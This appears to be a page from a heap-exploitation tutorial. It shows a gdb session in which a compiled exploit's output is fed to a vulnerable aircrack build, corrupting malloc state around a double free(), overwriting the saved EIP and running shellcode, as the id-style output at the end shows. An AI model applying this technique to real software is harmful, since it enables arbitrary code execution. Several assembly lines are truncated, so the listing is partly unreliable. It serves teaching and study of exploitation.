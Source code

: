 \documentclass[12pt]{article}
\begin{document}
Let's now see it in action:

\begin{verbnobox}[\small]
blackngel@linux:~$ gcc ploit1.c -o ploit
blackngel@linux:~$ ./ploit > file
blackngel@linux:~$ gdb -q ./aircrack

(gdb) disass fvuln
Dump of assembler code for function fvuln:
.........
.........
0x08049298 <fvuln+184>:	call   0x8048d4c <free@plt>
0x0804929d <fvuln+189>:	movl   $0x8056063,(%
0x080492a4 <fvuln+196>:	call   0x8048e8c <puts@plt>
0x080492a9 <fvuln+201>:	mov    %
0x080492ac <fvuln+204>:	call   0x8048d4c <free@plt>
0x080492b1 <fvuln+209>:	movl   $0x8056075,(%
0x080492b8 <fvuln+216>:	call   0x8048e8c <puts@plt>
0x080492bd <fvuln+221>:	add    $0x1c,%
0x080492c0 <fvuln+224>:	xor    %
0x080492c2 <fvuln+226>:	pop    %
0x080492c3 <fvuln+227>:	pop    %
0x080492c4 <fvuln+228>:	pop    %
0x080492c5 <fvuln+229>:	pop    %
0x080492c6 <fvuln+230>:	ret    
End of assembler dump.

(gdb) break *fvuln+204                         /* Before second free() */
Breakpoint 1 at 0x80492ac: file linux/aircrack.c, line 2302.

(gdb) break *fvuln+209                         /* After second free() */
Breakpoint 2 at 0x80492b1: file linux/aircrack.c, line 2303.

(gdb) run < file
Starting program: /home/blackngel/aircrack < file
[Thread debugging using libthread_db enabled]
ptr found at 0x807d008
good heap allignment found on malloc() 521 (0x8100048)

END fread()                 /* tests when free () freezing (mutex != 0) */
                        
END first free()            /* tests when free () freezing (mutex != 0) */
[New Thread 0xb7e5b6b0 (LWP 8312)]
[Switching to Thread 0xb7e5b6b0 (LWP 8312)]

Breakpoint 1, 0x080492ac in fvuln () at linux/aircrack.c:2302
warning: Source file is more recent than executable.
2302	        free(ptr2);

/* STACK DUMP */
(gdb) x/4x 0xbffff434    // av->max\_fast // av->fastbins[0]
0xbffff434:   0x00000000     0xbffff518     0x0804ce52     0x080483ec

(gdb) x/x 0xbffff434 + 1848  /* av->system\_mem */
0xbffffb6c:	0x3d766d77

(gdb) x/4x 0x08100048-8+20   /* nextchunk->size */
0x8100054:  0x00000009   0x90909090   0xe983c931   0xd9eed9f4
(gdb) c
Continuing.

Breakpoint 2, fvuln () at linux/aircrack.c:2303
2303	        printf("\nEND second free()\n");

(gdb) x/4x 0xbffff434                 // EIP = &(p)
0xbffff434:  0x00000000   0xbffff518   0x08100040   0x080483ec
(gdb) c
Continuing.

END second free()
[New process 8312]
uid=1000(blackngel) gid=1000(blackngel) groups=4(adm),20(dialout),
24(cdrom),25(floppy),29(audio),30(dip),33(www-data),44(video),
46(plugdev),104(scanner),108(lpadmin),110(admin),115(netdev),
117(powerdev),1000(blackngel),1001(compiler)

Program exited normally.
\end{verbnobox}
\end{document}
